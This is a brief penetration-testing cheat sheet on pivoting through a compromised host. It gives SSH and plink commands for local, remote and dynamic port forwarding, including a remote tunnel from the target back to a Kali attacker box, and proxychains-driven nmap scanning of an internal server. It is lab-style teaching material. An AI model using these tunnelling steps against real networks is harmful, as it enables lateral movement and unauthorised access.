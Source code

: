 # Port Forwarding Scenario

The Attacking Box (Kali Linux)
IP: 192.168.1.16

The Pivot Host (Windows or Linux)
User: lowuser
FIRST IP: 192.168.1.30
SECOND IP: 10.0.0.2

Web Server (Windows)
IP: 10.0.0.10

Goal: To get to the server at 10.0.0.10

### Local Forwarding

From Kali
`ssh -f -N -L 3390:10.0.0.10:3389 lowuser@192.168.1.30`
`rdesktop localhost:3390`

Note: To actually connect to RDP on a target, you would need to ensure that either Network Level Authentication is disabled on the target, or that you can obtain a Kerberos TGT.

### Remote Forwarding

Plink.exe is a Windows binary for ssh. It can be found in Kali at:
`/usr/share/windows-resources/binaries/plink.exe`

From Target
`ssh -f -N -R 4444:10.0.0.10:80 root@192.168.1.16`
`plink -f -N -R 4444:10.0.0.10:80 root@192.168.1.16`

From Kali
`curl 127.0.0.1:4444`

### Dynamic Forwarding

From Kali
`ssh -f -N -D 8080 lowuser@192.168.1.30`

`vi /etc/proxychains.conf`
`[ProxyList]`
`socks4   127.0.0.1   8080`

`proxychains nmap -sT -Pn 10.0.0.10`


# Other Tools

HTTPTunnel

stunnel

socat

Reference:
https://www.cybrary.it/0p3n/pivot-network-port-forwardingredirection-hands-look/
https://technostuff.blogspot.com/2008/10/some-useful-socat-commands.html
